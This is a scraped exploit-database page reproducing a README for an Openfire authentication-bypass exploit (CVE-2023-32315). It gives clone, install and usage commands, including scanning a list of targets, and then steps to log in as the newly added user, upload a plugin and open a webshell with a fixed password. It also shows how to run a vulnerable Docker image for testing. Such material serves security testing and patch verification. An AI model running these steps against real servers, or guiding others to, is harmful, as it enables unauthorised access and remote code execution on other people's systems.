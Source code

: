 ```yaml
---
title: Exploit for Path Traversal in Igniterealtime Openfire exploit
url: https://sploitus.com/exploit?id=6485912E-5788-53F6-8307-75849FBF86E9&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-19
fetch_date: 2025-10-04T11:45:03.413208
---
```


# Exploit for Path Traversal in Igniterealtime Openfire exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Path Traversal in Igniterealtime Openfire CVE-2023-32315

2023-06-18 | CVSS 8.6

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=6485912E-5788-53F6-8307-75849FBF86E9
# CVE-2023-32315
Openfire Console Authentication Bypass Vulnerability with RCE plugin

## Setup
```
git clone https://github.com/miko550/CVE-2023-32315.git
cd CVE-2023-32315
pip3 install -r requirements.txt
```
## Usage
```
python3 CVE-2023-32315.py -t http://127.0.0.1:9090
python3 CVE-2023-32315.py -l lists.txt
```
### Step
1. Run exploit
2. login with newly added user
3. goto tab plugin > upload plugin `openfire-management-tool-plugin.jar`
4. goto tab server > server settings > Management tool
5. Access websehll with password "123"
## Vulnerable Openfire Docker
```
docker pull nasqueron/openfire:4.7.1
sudo docker run --name openfire -d --restart=always --publish 9090:9090 --publish 5222:5222 --publish 7777:7777 --volume /srv/docker/openfire:/var/lib/openfire nasqueron/openfire:4.7.1
```
## Reference
- https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass
- https://github.com/5rGJ5aCh5oCq5YW9/CVE-2023-32315exp
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)